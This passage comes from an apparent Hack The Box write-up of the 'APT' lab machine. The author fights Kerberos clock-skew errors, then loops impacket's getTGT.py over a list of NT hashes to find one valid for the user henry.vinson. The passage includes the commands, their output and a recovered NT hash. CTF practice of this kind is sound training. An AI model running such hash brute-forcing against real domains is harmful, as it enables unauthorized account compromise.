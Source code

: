 ```
 'ufail_limit': None,
 'username': [],
 'users': None,
 'verbose': True,
 'wmi': None,
 'wmi_namespace': 'root\\cimv2'}
DEBUG Using selector: EpollSelector
DEBUG Running
DEBUG Started thread poller
DEBUG Error resolving hostname henry.vinson: [Errno -2] Name or service not known
DEBUG Error retrieving os arch of ::1: Could not connect: [Errno 111] Connection refused
SMB         ::1             445    APT              [*] Windows Server 2016 Standard 14393 (name:APT) (domain:htb) (signing:True) (SMBv1:True)
DEBUG Stopped thread poller
```

I tried many different things, and even checked to verbose debugging information, but could not identify the problem. If someone could tell me what I was doing wrong I would greatly appreciate it!!

### getTGT.py (cont)

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ for x in $(cat nt_hashes);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson 2>/dev/null;done                                                        
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
```

The next day, my clock was magicaly working correctly. I didn't restart the system or anything (I had actually only paused the vm). This time I was able to enumerate the users (or at least was able to connect and get the PREAUTH_FAILED error instead of the Clock Skew error).  

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$ for x in $(cat nt_hashes);do getTGT.py -hashes $x -dc-ip apt.htb.local htb/henry.vinson | grep -v Impacket | grep -v "KDC_ERR_PREAUTH_FAILED" | tee -a  valid_hash && echo $x >> valid_hash;done

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

I used a bit of bash hackery to remove the results that showed failed attempts and let it run.  (I assumed it would take a long time so I let it go and got dinner).

When I checked in on the progress, I noticed that I still received the time sync error, but this time only for one hash; all others reported PREAUTH error.

```
┌──(zweilos㉿kali)-[~/htb/apt]
└─$cat valid_hash
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb
```

